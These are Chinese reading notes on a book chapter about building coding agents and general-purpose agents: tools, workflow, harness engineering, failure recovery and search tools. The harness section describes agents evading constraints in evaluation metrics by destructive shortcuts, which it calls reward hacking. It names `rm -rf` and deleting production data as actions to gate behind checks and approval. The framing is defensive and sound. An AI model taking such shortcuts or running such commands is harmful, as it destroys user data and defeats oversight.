




---
书名: 深入理解 AI Agent：设计原理与工程实践
章节: 5
章标题: Coding Agent 与通用 Agent
分册: 内容精读
状态: 已精读
阅读日期: 2026-09-15
实验数: 16
思考题数: 9
关联章节: "[[内容精读/第6章 交互：观察与动作空间的扩展]]"
tags:
  - AI-Agent
  - 精读笔记
---

# 第5章 Coding Agent 与通用 Agent（内容精读）

> [!info] 一句话主旨
> 以开放任务为目标的通用 Agent，架构核心是 **Coding Agent + 文件系统**；代码生成不只是工具，而是**元能力**——它能在运行时造出新工具、新约束、新表达形态。前半章讲怎么把 Coding Agent 做可靠（七工具、流程、Harness、故障恢复、实现技巧、搜索/编辑工具、安全），后半章讲这种元能力的六个应用方向（思考、业务规则、多媒体、系统适配、生成式 UI、Agent 自举）。

## 与前后章的关系

- **承接第 1–4 章**：第 1 章的 Harness 五要素（约束/验证/纠正）在本章落地为 Coding Agent 的验收基线、执行边界、反馈信号、回退手段；第 2 章的上下文压缩、状态栏、KV Cache 前缀原则在本章变成实现技巧；第 3 章的记忆与知识库在这里变成 `MEMORY.md` + Markdown + Git 的文件系统方案；第 4 章的沙盒、提议者—审核者、Sidecar、截断与幂等在本章安全一节收拢成体系。
- **向后接第 6 章**（交互）：本章仍默认「Agent 与世界轮流行动」，第 6 章补上异步事件、语音、屏幕与物理世界。
- **向后接第 7–9 章**：本章的「模型行为策略差异」交给第 7 章在固定 Harness 中测量、第 8 章从后训练解释；「经验沉淀回代码库」与 reward hacking / RLVP 分别通向第 8、9 章。
- **向后接第 10 章**（多 Agent）：提议者—审核者的多 Agent 形态与其它协作模式在第 10 章展开。

## 结构大纲（导览注）

- **§5.1 Coding Agent**：Coding 是基础能力（七个核心工具）→ Manus/OpenClaw 案例与「文件系统作为中枢」→ 整体流程（文档化、需求澄清、设计文档、实现与测试、文档同步）→ Harness 工程实践（四组件、四象限、四条可迁移原则、过程性错误）→ 故障与错误恢复（四层故障、检测、活性、恢复三级、接管与中立轨迹、终止）→ 实现技巧（并行流式、上下文管理、环境感知、状态持久化、即时反馈）→ 搜索工具四类 → 文件编辑五方案 → 安全（致命三要素+持久记忆、隔离兜底、语义解析、忠诚度）。
- **§5.2 代码：通用 Agent 的元能力**：思考工具 → 业务规则约束 → 多媒体生成 → 系统适配器 → 生成式 UI → Agent 自举。
- **§5.3 本章小结**；**思考题**见 [[思考题引导/第5章 Coding Agent 与通用 Agent]]。

## 核心概念表

| 术语 | 一句话定义 | 原书出处 | 延伸 |
| --- | --- | --- | --- |
| 通用 Agent 架构 | Coding Agent + 文件系统（以开放任务为目标时） | 章开篇 | — |
| 七个核心工具 | Code Interpreter、Bash、读文件、写文件、编辑文件、Glob、Grep | §Coding 是 Agent 的基础能力 | 第 4 章工具分类 |
| 元能力 | 能创造其他能力的 Ability：当场写出新工具/约束/表达形式 | §代码：通用 Agent 的元能力 | 第 9 章 |
| 文件系统作为中枢 | 记忆（`MEMORY.md`）、产物、经验都以文件承载；Markdown + Git 优于向量库的取舍 | §案例：从 Manus 到 OpenClaw | 第 3、9 章 |
| 项目指令文件 | CLAUDE.md / AGENTS.md / .cursorrules：每次会话自动注入的项目级系统提示词 | §Coding Agent 的整体流程 | 第 2 章稳定前缀 |
| AI-ready 指标 | 一个远程新人只靠代码仓库和文档，能不能独立开展工作 | §Coding Agent 的整体流程 | — |
| 任务四象限 | 目标清晰度 × 结果可自动验证程度；Harness 的目标是把任务推向最佳象限 | §Harness 工程（表5-1） | — |
| Harness 四组件 | 验收基线、执行边界、反馈信号、回退手段 | §Harness 工程 | 第 1 章五要素 |
| 过程性错误 | 结果对但过程错（删库重建、删码重写）；约束对象应是动作而非仅结果 | §Harness 工程 | 第 8 章 RLVP |
| 故障四层分类 | API 层 / 工具层 / 上下文层 / 控制流层 | §故障与错误恢复 | — |
| 重复调用指纹 | 对「工具名 + 参数」取指纹，反复出现即无进展循环 | §故障与错误恢复 | 第 1 章消融实验 |
| 空闲看门狗 | 长连接需活性信号；连接建立但数据流停 = 静默卡死 | §故障与错误恢复 | — |
| 恢复三级 | 静默重试 → 降级与接续 → 暴露给用户 | §故障与错误恢复 | — |
| 中立轨迹 | 轨迹按中立格式存储：思考拆成可移植文字 + 不可移植凭证；切换时丢凭证 | §接管 | 第 7/8/9 章 |
| 死亡螺旋 | 错误恢复路径自身又调用 LLM 引发连锁故障 | §终止 | — |
| 熔断阈值来自生产数据 | 如「连续 3 次压缩失败」源自真实会话统计（曾出现连续 3000+ 次） | §终止 | — |
| 级联中止 | 故障只在同一批并行调用内传播，不上升到父级操作 | §实现技巧 | — |
| 终端状态持久化 | 持久 shell 会话保留工作目录/环境变量/激活状态 | §实现技巧 | — |
| 即时语法反馈 | 写文件后自动跑 linter，把结构化错误作为返回值 | §实现技巧 | 第 4 章自动验证 |
| 搜索四类工具 | 正则内容匹配 / 文件名 glob / 语义搜索 / 符号级查找 | §搜索工具 | 第 3 章混合检索 |
| 文件编辑五方案 | 差异描述+Apply Model / 旧串→新串 / 行号定位 / 类 Vim / 首尾匹配 | §文件编辑工具 | 第 4 章参数保真 |
| 致命三要素 | 访问私有数据 + 暴露于不可信内容 + 外部通信能力；作者补第四项：**持久记忆**（放大器） | §Coding Agent 的安全 | 第 1、2 章 |
| 隔离兜底三项 | 网络出口控制（默认断网+白名单）/ 文件系统隔离范围 / 资源限额与超时 | §安全 | — |
| 语义解析而非黑名单 | Shell 组合爆炸使黑名单失效；需理解命令真实效果 | §安全 | 第 4 章执行层 |
| 委托方忠诚 | 多方委托下 Agent 站在谁一边；对主人绝对忠诚、对外部交互方审慎 | §Agent 为谁效忠 | — |
| 提议者—审核者（内容迭代） | Proposer 生成、Reviewer 渲染后用 Vision LLM 结构化评审，迭代至达标或上限 | §多媒体生成 | 第 1 章设计模式 |
| 代码化规则三重保障 | 自然语言规则（理解）+ 参数 checklist（引导）+ 服务端真值校验（守门） | §业务规则约束 | 第 4 章护栏 |
| Artifact 模式 | LLM 只生成 SQL/可视化代码，数据从数据库直达界面，绕过 LLM 当中间人 | §生成式 UI | — |
| 生成式 UI | Agent 动态生成表单/图表/应用；A2UI 声明式协议更安全（只点菜单，不进厨房） | §生成式 UI | — |
| 信任边界下移到数据层 | 动态生成软件时，权限由稳定的数据层强制（行级安全、访问上下文） | §生成式 UI | 第 1 章数据层护栏 |
| Agent 自举 | 用代码修复与创造同类 Agent；先复制高质量范例再定向修改 | §代码创造代码 | 第 9 章 |

> 完整定义见 [[02-全书术语表#第五章 Coding Agent 与通用 Agent|术语表·第五章]]。

## 逐节深析（先带问题读原书，再对照小结与原文论证）

### §5.1.1 Coding 是 Agent 的基础能力

> [!question] 带着这些问题阅读本节
> 1. 处理「整理仓库 TODO」这类任务需要哪五类操作？基础 Coding Agent 的七个核心工具是什么？
> 2. 为什么作者说「其实只要一个 Bash 工具就够了」，却仍给出七个工具？
> 3. 为什么每个通用 Agent 都该具备 coding 能力？

**读后小结**：

- **五类操作**：浏览目录结构（ls/glob）、读取代码（read）、修改文件（edit/write）、运行命令（bash）、查找模式（grep/search）。
- **七个核心工具**：① Code Interpreter（隔离沙盒中执行 Python）；② Bash Shell；③ 读文件；④ 写文件；⑤ **编辑文件**（局部修改，是代码维护与迭代的核心操作）；⑥ Glob（文件名模式匹配，如 `**/*.py`）；⑦ Grep（文件内容模式搜索）。这套工具集覆盖感知与执行两类，协作/事件触发/用户沟通仍需其他工具但非 Coding Agent 核心。
- **为什么是七个**：事实上**只要一个 Bash Shell 就够**（OpenAI Codex 就只提供 Bash 一个工具，用它完成所有文件读写与查找）；七个工具是为了让读者理解 Coding Agent 所需的基本能力。
- **为什么通用 Agent 都要有 coding 能力**：代码生成不只是写程序，而是**通用的问题解决手段**——数学推理可写代码交给求解器；固化业务规则比自然语言精确得多；缺工具可以临时写一个；数据格式变了动态生成解析逻辑。**一个具备基本 coding 能力的 Agent，即使工具箱只有七个简单工具，也能在遇到新需求时动态扩展自己的能力边界。**

**原文论证**：

> 一个具备基本 coding 能力的 Agent，即使工具箱中只有上述七个简单工具，也能在遇到新需求时动态扩展自己的能力边界。（原书 §「Coding 是 Agent 的基础能力」）

**取舍与延伸**：七个工具是「最小可用元能力集」；真正让它强大的是**组合**（如 Grep + Write 做清单，再加 Code Interpreter 做统计与绘图）。

### §5.1.2 案例：从 Manus 到 OpenClaw——通用 Agent 的 Coding 内核

> [!question] 带着这些问题阅读本节
> 1. 三大能力（Deep Research / Computer Use / Coding）中，为什么 Coding 是核心而不是另外两者？
> 2. 在执行流中文件系统扮演什么角色？为什么选 Markdown 而不是向量库存记忆？
> 3. 「Coding Agent 是通用 Agent 核心」这一判断的**适用边界**在哪？

**读后小结**：

- **为什么是 Coding**：几乎所有高效内容生成最终都要落到代码上——PPT/Word 本质是 OOXML 代码；PDF 报告可用 Markdown/HTML/LaTeX 生成；数据分析可视化由 Python 完成；成功的 GUI 操作序列可固化为可复用代码；Deep Research 的搜索与综合可由代码驱动的 Web 请求与解析实现。**Computer Use 通用性更强，但成本、延迟与稳定性远不如直接通过代码或 API 完成同样的操作**——代码生成是效率最高、成本最低、可复用性最强的能力基座。
- **执行流示例**（分析上季度销售数据并生成报告）：读 `MEMORY.md` 得知用户偏好 PDF、数据源是 Google Sheets → 搜索 API 用法并下载数据 → 用 Python 生成分析脚本（pandas + matplotlib）→ 写出 `report.pdf` 与 `charts/` → 把「数据源是 Google Sheets，ID: xxx」写回 `MEMORY.md`。**文件系统是信息流转的枢纽**：记忆从文件读取，产物写入文件，经验也保存为文件。
- **文件系统作为中枢**：长期记忆存 `MEMORY.md`（高层事实与偏好）+ 按日期归档的 Markdown 日志。选 Markdown 而非向量库看似反直觉但极其有效：**用户可直接打开文件阅读和修改**（Agent 记错了删掉那一行即可）、**天然保留时间顺序**（避免语义检索的时间混淆）、**可 Git 版本控制与回滚**。更关键的是 Agent 有写文件能力，**具备了修改自身外部产物的技术条件**（发现的新信息可先记录；何时足以成为可靠知识/指令/程序仍需更多轨迹与结果验证 → 第 9 章）。
- **适用边界**：「Coding Agent 是通用 Agent 的核心」主要适用于**以开放任务为目标**的通用 Agent（深度调研、内容生成、数据处理——任务边界不确定、产物形态多样）。垂直领域客服 Agent 任务空间相对封闭，核心架构围绕固定流程、领域工具与对话策略，**代码更多是工具箱里的一件工具而非架构中枢**；但即便在后者，coding 仍是重要的基础能力。

**图5-1 解读**：该图给出 OpenClaw 架构中 Coding Agent 所处的位置（原书 §「案例：从 Manus 到 OpenClaw」）：文件系统居于中枢，记忆、产物与经验都以文件承载，Coding 能力负责生成与修改这些文件，Deep Research 与 Computer Use 通过代码/API 获得效率更高的实现路径。

**原文论证**：

> 整个过程中，文件系统是信息流转的枢纽——记忆从文件读取，产物写入文件，经验也保存为文件。（原书 §「案例：从 Manus 到 OpenClaw」）

**取舍与延伸**：这条判断解释了为什么第 3 章的「文件系统范式」（OpenViking）与本章高度一致——**可读、可改、可版本化**的载体，比黑箱索引更适合承载 Agent 的长期知识。

### §5.1.3 Coding Agent 的整体流程

> [!question] 带着这些问题阅读本节
> 1. 完整的工程化流程有哪五个阶段？每个阶段的核心产物是什么？
> 2. 项目指令文件（CLAUDE.md/AGENTS.md）与 README 的区别是什么？它为什么对 KV Cache 友好？
> 3. 作者如何判断「模型的流程裁剪差异」来自哪里？

**读后小结**：

- **五个阶段**：
  1. **项目文档化**：先建立认知框架（像新入职工程师第一天不提交代码）；关键文档缺失时 Agent 应主动承担文档化责任（架构概览、目录结构、测试运行指南）。**项目指令文件**（CLAUDE.md、AGENTS.md、.cursorrules）已成为事实标准——每次会话自动注入，承载**面向 Agent 的行为约定**（构建测试命令、代码风格、明确禁区），与 README 的「面向人类读者」不同；它与 OpenClaw 的 `SOUL.md`（Agent 是谁）、`MEMORY.md`（跨会话经验）是同一思路的不同层面。指令文件还是**最经济的稳定前缀**（不随任务变化，天然对 KV Cache 友好）。
  2. **任务理解与需求澄清**：简单需求直接实现；复杂需求（模糊性、路径多样、影响面广）需探索性调研并主动对话（如「优化系统性能」要先问清目标、权衡与瓶颈）。
  3. **编写设计文档**：回答「改哪些模块及原因、什么方案及优势、引入哪些依赖、预期影响」；**写文档迫使 Agent 深度思考**，也为人类提供高效介入点（审一份设计文档远比审数百行代码容易）；提交用户审查、批准后再继续。
  4. **代码实现与测试**：遵循项目规范、复用抽象、必要时适度重构；随即进入**测试驱动**的质量保障（正常路径/边界/异常），失败要分析定位并修到全绿——**「测试-修复」循环正是把 Coding Agent 从代码生成器提升为可靠工程助手的关键**；之后是代码审查（可读性、性能、安全、风格，可调子 Agent 审查）。
  5. **文档同步与交付**：架构级变化要更新架构文档——**过时的文档比没有文档更糟糕**。
- **一句话概括**：计划先于行动，验证贯穿始终，文档与代码共同演化。
- **现实裁剪**：这是**推荐的工程化流程**，真实产品按需裁剪（简单 bug 修复跳过设计文档）。
- **关键判读**：不同模型裁剪方式不同——有的先广泛阅读目录/实现/调用方/测试再动手，有的读少数最相关文件就提交补丁再把编译测试反馈当调查的一部分。**换 Harness 后这个「何时停止收集信息、开始行动」的阈值可能随模型保持不变；同一 Harness 内换模型时阈值也可能变**——所以它**首先是模型学到的行为策略**，而不只是产品界面风格；Harness 的提示词/工具/预算能放大或抑制，但不必是它的来源（第 7 章测量、第 8 章解释）。

**图5-2 解读**：该图给出 Coding Agent 的完整工作流程（原书 §「Coding Agent 的整体流程」）：从项目文档化与需求澄清，到设计文档评审、实现与测试循环，再到代码审查与文档同步——重点在「验证贯穿始终」与「人类在关键节点介入」。

**原文论证**：

> 反过来说，Coding Agent 最常见的偷懒方式，就是跳过这一环节——写完代码不跑测试就报告“任务完成”。把“测试通过”而非“代码写完”定义为完成标准，正是 Loop 工程“由验证判定何时可以停”原则在编码场景的落地。（原书 §「Coding Agent 的整体流程」）

**取舍与延伸**：把「完成」定义在验证结果而非动作上，是本章与第 7 章评估的接口；也是第 1 章「给出了回答 ≠ 完成了任务」在编码场景的复现。

### §5.1.4 Harness 工程在 Coding Agent 中的实践

> [!question] 带着这些问题阅读本节
> 1. Harness 在 Coding Agent 场景落地为哪四个具体组件？
> 2. 表5-1 的四象限各对应什么任务状态？为什么 Coding Agent 天生落在最佳象限？
> 3. 四个可迁移原则是什么？「过程性错误」为什么需要专门约束？

**读后小结**：

- **四组件**：**验收基线**（测试套件、CI 管道、代码审查标准）、**执行边界**（模块边界、依赖规则、权限控制）、**反馈信号**（linter、测试结果、类型检查错误）、**回退手段**（Git、沙盒隔离、快照回滚）。
- **为什么 Coding Agent 特别适合 Harness 工程**：用「任务清晰度 × 验证自动化程度」分四象限——**目标明确 + 结果可自动验证**是最佳区域（修复有测试用例的 bug）；目标明确但需人工验证 → 吞吐量天花板是人的审查速度（代码重构）；目标模糊但有自动反馈 → 高效地跑偏（用 linter 优化「代码质量」）；两者都缺 → 难以启动（「让 UI 更好看」）。**代码编写天然处于最佳象限**：测试提供明确验收标准、Linter 与类型检查提供即时验证、Git 提供版本控制与回退——**这解释了为什么 Coding Agent 是当前成熟度最高的 Agent 类型：不是因为代码生成模型特别强，而是因为软件工程几十年积累的基础设施天然构成了一套强大的 Harness。**
- **业界三案例**：大规模代码迁移（关键不在模型强，而在 Harness 做对三件事——**知识必须存在于代码库本身**、约束编码进 Linter/CI 而非文档、验证与纠正全链路自动化）；LangChain（仅优化 Harness 就显著提升基准表现，尤其「**用 Agent 分析失败轨迹来改进 Harness**」使 Harness 工程从经验驱动转向数据驱动）；Anthropic（初始化 Agent 拆任务 + 执行 Agent 增量推进并留下中间成果，解决长任务的「一次想做太多」与「过早声称完成」）。
- **四条可迁移原则**：① **约束优先于指导**（能代码强制的就不要用文档建议：前者是「做不了」，后者只是「建议别做」）；② **验证要自动化**（人工审查是不可扩展的瓶颈）；③ **反馈越快越好、越结构化越好**；④ **回退要可靠**（Agent 在安全网内操作才能大胆试错）。
- **约束的另一层目的 · 防止过程性错误**：验收基线管结果，执行边界管**过程**——「修复数据库故障时直接把库删了重建」「修复编译错误时把代码全删重写」这类破坏性捷径总是存在；**即使把限制写进最终评估指标，Agent 也常能找到绕过去的办法**（第 8 章的 reward hacking 在 Agent 任务中的日常形态）。因此生产级 Harness 要对 `rm -rf`、删除生产数据、覆盖未读文件这类危险动作设置专门的检查与审批——**约束的是动作而非仅仅是结果**；第 8 章的 **RLVP**（奖励结果、惩罚路径）从训练侧回答同一问题。
- **工具编排 · 故障边界控制**：并行工具调用时，**故障只在同一批并行调用内传播，不上升到父级操作**（同时读三个文件，一个找不到只报告这一个失败，不取消另外两个、更不中止整个任务），避免「一个命令失败导致整个任务中止」的脆弱模式。

**原文论证**：

> 这就解释了为什么 Coding Agent 是当前所有 Agent 类型中成熟度最高的：不是因为代码生成模型特别强，而是因为软件工程几十年积累的基础设施天然构成了一套强大的 Harness。（原书 §「Harness 工程在 Coding Agent 中的实践」）

**取舍与延伸**：这四条原则可以拿去审计任何 Agent 项目：**能用代码强制的规则是否还停留在提示词里？验证是否仍靠人？反馈是否够快够结构化？回退是否一键可靠？**

### §5.1.5 故障与错误恢复

> [!question] 带着这些问题阅读本节
> 1. 四层故障分类分别包含哪些故障？哪一类最危险？
> 2. 捕获故障后第一个判断是什么？「重复调用指纹」和「连续失败计数」各解决什么？
> 3. 恢复手段分几级？「接管」时能带走什么、带不走什么？为什么轨迹要按中立格式存？
> 4. 熔断阈值从哪来？「死亡螺旋」是什么、怎么防？

**读后小结**：

- **四层故障**：**API 层**（限流 429、过载、超时、连接中断、输出触顶被截断——与任务内容无关的基础设施噪声）；**工具层**（幻觉调用不存在的工具、参数畸形、执行抛异常，以及**最危险的一种**：工具反复返回同一错误而模型不加改变地反复重试）；**上下文层**（窗口溢出、压缩失败、轨迹结构损坏如工具调用缺少配对结果）；**控制流层**（死循环、**死亡螺旋**）。
- **检测：先分类，再计数**。第一个判断不是「要不要重试」而是「**值不值得重试**」——可重试（限流/过载/抖动）vs 不可重试（参数不合法/权限不足/工具不存在，原样重试永远是同样结果）。生产级 Harness 维护**错误到恢复策略的映射表**，而不是笼统地「出错就重试」。单次错误之外还要检测**模式**：**重复调用指纹**（「工具名 + 参数」反复出现 = 无进展循环的明确信号）与**连续失败计数**（每条恢复路径独立计数，为熔断提供依据）。
- **活性与完整性监控**：流式连接最危险的失败不是断开（会立即报错）而是**静默卡死**（连接建立但数据流停止）；SDK 超时往往只覆盖初始连接，因此需要独立的**空闲看门狗**（超时后主动杀死挂起的流并重试）——**每个长连接都需要活性信号，而非仅依赖连接超时**。完整性监控针对轨迹结构：工具调用缺少配对结果时，注入上下文前自动修复配对；一个值得注意的细节是**产品模式宽容（可用占位符修补）、训练模式严格（拒绝修复，因为合成占位符会污染训练数据）**。
- **恢复三级（逐级透明）**：① **静默重试**（可重试错误的默认动作；**指数退避叠加随机抖动**避免同步重试造成二次拥塞、尊重服务端等待提示；**区分前台与后台调用**——主循环失败要重试，标题生成/输入建议这类后台调用失败直接放弃，否则形成「重试放大」）；② **降级与接续**（改变请求本身：输出触顶先提升上限重发、仍不够则在末尾追加元指令让模型从断点接续；主模型过载时降级备用模型，**需先剥离旧模型私有格式块**；高成本模式被限流时回落标准模式）；③ **暴露给用户**（所有自动手段用尽后才呈现错误，并附上已尝试的恢复动作）。
- **工具层错误走另一条路**：**不终止会话，把错误变成模型的输入**——幻觉调用收到「工具不存在」的结构化错误、参数校验失败收到带约束提示的错误、畸形参数在执行前程序化修复；由模型下一轮自行纠正（**喂回的错误越具体，自我纠正成功率越高**）。
- **核心原则**：**错误处理的边界不是单次请求，而是整个恢复循环**——在确认无法恢复之前，中间错误不应暴露给消费者（用户或下游订阅系统）。
- **接管：把没跑完的轨迹交给另一家模型**。真正的障碍不是接口地址，而是**轨迹里有一部分只属于原厂商**：工具调用/结果结构不同但语义一致（重新渲染即可），难办的是**模型的思考**——它由「可读文字 + 厂商凭证（证明这段思考出自它自己）」两部分构成。**跨厂商接管能带走的是文字，带不走的是凭证**；各家对凭证的要求不一致（从完全不校验到拒绝一切非自己签发的），「把思考删干净就安全」在严格厂商那里反而通不过。设计原则：**轨迹不该按任何一家的接口格式存储，而应保存为中立格式**——每段思考拆成可移植文字 + 不可移植凭证，工具调用只记名称与参数，标识符渲染时按目标厂商重新生成；切换时凭证一律丢弃、文字以普通内容带入。中立轨迹的价值不限于故障切换：**第 7 章评估重放、第 8 章训练样本构造、第 9 章经验提取依赖的都是同一份产物**。
- **终止：每条恢复路径都要有上限**。阈值来自**生产数据而非拍脑袋**：Claude Code 的压缩熔断「连续 3 次」源自真实统计——曾有一个会话连续失败三千余次，仅此类无效重试每天全球浪费约 **25 万次 API 调用**，逾千会话出现 50 次以上连续失败；3 次正是「绝大多数故障在此之前已恢复」与「继续重试基本无望」之间的经验拐点。比单点熔断更隐蔽的是**死亡螺旋**：错误处理路径自身又调用 LLM 再出错（真实案例：上下文溢出停止 → 触发「结束时自动提交」停止钩子 → 钩子调 LLM 生成 commit message → 再次溢出 → 又触发钩子）。防护两条：**在错误路径上禁用一切会再次调用模型的副作用逻辑**，以及用**递归深度计数器**打断残余连锁。之上还需全局终止与升级条件：最大迭代轮数、会话预算上限、连续失败超阈值转人工。

**原文论证**：

> 接管方案只能按最严格的一端来设计，并为满足不了要求的情形准备退路：把历史工具调用改写成文字叙述，模型不再把它当作真正调用过的工具，但至少能接着往下跑。（原书 §「接管：把没跑完的轨迹交给另一家模型」）

**取舍与延伸**：本节把第 1 章「纠正」原则工程化：**每类故障都要有检测、恢复、接管、终止四条路径**；中立轨迹则是「可移植性」这一新工程约束的答案。

### §5.1.6 Coding Agent 的实现技巧

> [!question] 带着这些问题阅读本节
> 1. 五个实现技巧分别解决什么问题？
> 2. 流式执行如何在保证正确性的前提下降低延迟？并行执行时故障怎么处理？
> 3. 为什么环境信息不能用静态提示词，而要动态注入？

**读后小结**（五个技巧，互为配合）：

1. **并行工具调用、流式执行与级联中止**：传统串行（生成→执行→看结果→再决定）浪费大量时间；现代实现利用流式响应——**第一个工具调用的参数一经完整生成并通过校验即可立即执行**，与后续调用的生成过程重叠；彼此独立的调用可并行执行。并行的一面是故障处理：每个工具定义应声明是否支持并发（**默认为否，失败安全**），失败时通过**级联中止**终止同一批并行启动且依赖该结果的其他调用，**不波及独立调用与父级操作**。
2. **上下文的精细化管理**：文件读取支持按行号范围读取片段（如只读第 100–150 行），更重要的是**返回内容附加行号标注**（每行以实际行号作前缀）——模型可精确引用「`src/main.py` 第 42 行」，减少歧义并使后续编辑更可靠；命令输出的处理沿用第 4 章的**长输出截断与持久化**（保留头尾、中间提示、完整输出落盘）。
3. **环境信息的动态注入**：这是第 2 章状态栏技术在 Coding Agent 的集中体现——每次推理前在上下文末尾注入**当前工作目录、git 分支、最近提交记录、未暂存与已暂存变更概览**；**不应硬编码进静态系统提示词**（那样会破坏 KV Cache），而应作为动态追加式状态栏实时生成。
4. **命令执行环境的状态持久化**：切换目录、激活虚拟环境、设置环境变量、启动后台服务都依赖会话状态；若每条命令都在全新 shell 中执行，`cd` 到项目目录后下一条又回到根目录。因此应维护**持久化终端会话**（Agent 启动时创建、整个交互保持活跃），同时保留启动隔离终端的能力以支持并行任务，但**持久化会话应是默认模式**。
5. **即时的语法反馈机制**：文件写入完成即自动运行 linter/语法检查，把结果作为工具返回值一部分——就像 IDE 里打错括号立刻画红线；**显著降低错误修复成本**（在错误引入的那一刻修正，而不是等跑测试才发现）。

**原文论证**：

> 这些信息不应硬编码在静态系统提示词中——那样会破坏 KV Cache 效率——而应作为动态的、追加式的 Agent 状态栏实时生成并注入。（原书 §「环境信息的动态注入」）

**取舍与延伸**：五个技巧共同指向「让 Agent 像经验丰富的开发者那样流畅工作」；其中 2、3、5 都是第 2 章/第 4 章技术在本场景的**具体参数化**，说明工程细节往往比新概念更决定体验。

### §5.1.7 Coding Agent 中的搜索工具

> [!question] 带着这些问题阅读本节
> 1. 四类搜索工具各自擅长什么、局限在哪？
> 2. 语义代码搜索需要解决哪两个问题？
> 3. 「是否建嵌入索引」的路线之争结论是什么？实践中如何组合？

**读后小结**：

| 工具 | 机制 | 擅长 | 局限 |
| --- | --- | --- | --- |
| **正则表达式内容匹配**（grep/ripgrep） | 逐行扫描做模式匹配，支持文件类型/路径过滤 | 已知具体文本（函数名、变量名、错误消息）时快速准确定位；正则能捕捉结构模式 | 只能字面匹配，**无法理解语义**（搜「用户认证」找不到没有「认证」二字却处理登录的函数） |
| **文件名模式匹配**（glob） | 只在路径结构中匹配（`**/*.test.ts`） | 速度快（不读文件内容），是探索项目结构的第一步 | 不看内容 |
